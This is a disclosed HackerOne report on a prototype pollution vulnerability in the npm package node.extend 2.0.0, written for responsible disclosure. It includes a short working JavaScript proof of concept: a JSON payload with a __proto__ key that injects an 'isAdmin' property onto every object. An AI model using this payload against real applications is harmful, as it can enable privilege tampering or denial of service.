 # Prototype pollution attack in node.extend

## Report Details
- **Report ID**: 430831
- **URL**: https://hackerone.com/reports/430831
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-10-30T11:42:18.593Z
- **Disclosed**: 2018-11-30T14:01:57.458Z

## Reporter
- **Username**: asgerf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a prototype pollution vulnerability in node.extend.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** node.extend
**version:** 2.0.0
**npm page:** `https://www.npmjs.com/package/node.extend`

## Module Description

A port of jQuery.extend that actually works on node.js

## Module Stats

267,701 downloads in the last week

# Vulnerability

## Vulnerability Description

This is a variant of this vulnerability:
https://hackerone.com/reports/310443

`node.extend` can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:
Craft an object of form `{__proto__: {...}}` and send it to `node.extend`:
```javascript
let extend = require('node.extend');
extend(true, {}, JSON.parse('{"__proto__": {"isAdmin": true}}'));
console.log({}.isAdmin); // true
```

# Wrap up

- I contacted the maintainer to let them know: [N]
- I opened an issue in the related repository: [N]

## Impact

Denial of service, possibly more depending on the application.
See https://hackerone.com/reports/310443

## Attachments
No attachments

